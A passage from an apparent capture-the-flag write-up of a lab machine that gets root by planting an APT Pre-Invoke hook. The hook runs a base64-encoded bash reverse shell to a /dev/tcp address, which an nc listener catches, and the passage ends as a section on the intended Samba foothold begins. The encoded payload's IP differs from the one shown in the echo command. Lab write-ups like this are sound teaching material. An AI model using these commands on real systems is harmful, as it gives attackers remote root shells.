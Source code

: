 
    sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh



The same thing can be added to a config file:



    apt::Update::Pre-Invoke {"command";};



I'll create a base64 encoded reverse shell:



    oxdf@parrot$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 -w0
    L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg==



And add that to a config file:



    john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg== | base64 -d | bash"};' > 000-shell



I'll be sure to keep an eye out for the time, as it seems like the cron
could remove my config before it gets used if I add it with more than a
minute to go until the next run.

The next time it runs, I get a shell:



    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.101 42508
    bash: cannot set terminal process group (3923): Inappropriate ioctl for device
    bash: no job control in this shell
    root@writer:/tmp# 



And I can get the flag:



    root@writer:~# cat root.txt
    740e18db************************



## Beyond Root - Intended Foothold

The command injection in the web application was not the intended path
to get a foothold. It's actually more complicated.

### Samba

I can use the SQL file read to get the Samba config file from
`/etc/samba/smb.conf`. It's long, but at the bottom it defines a share
named `writer2_project`:
